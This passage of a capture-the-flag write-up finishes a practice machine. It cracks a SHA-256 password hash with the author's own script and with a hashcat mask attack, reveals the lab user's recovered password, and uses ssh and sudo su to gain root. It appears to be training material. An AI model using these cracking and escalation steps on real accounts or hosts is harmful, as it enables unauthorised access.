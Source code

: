 ```python
```

![](Pasted%20image%2020250209145415.png)

To find a match I'll use my script [KeyHunter](https://github.com/gitblanc/KeyHunter):

```shell
python3 keyhunter.py passwords.txt abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

![](Pasted%20image%2020250209151022.png)

> Got a match :D `susan:susan_nasus_413759210`

![](Pasted%20image%2020250209151050.png)

I can now login using ssh and execute `sudo -l`:

```shell
sudo -l

[redacted]
(ALL : ALL) ALL

sudo su
```

### Another way

This one is the *official writeup way*:

First, create a wordlist file:

```shell
echo "susan_nasus_" > wl
```

Then create a hash file containing susan's password hash:

```shell
echo "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f" > hash
```

Last, execute hashcat:

```shell
hashcat -m 1400 -a 6 hash wl ?d?d?d?d?d?d?d?d?d -O
```

### Root flag

![](Pasted%20image%2020250209151509.png)

==Machine pwned!==



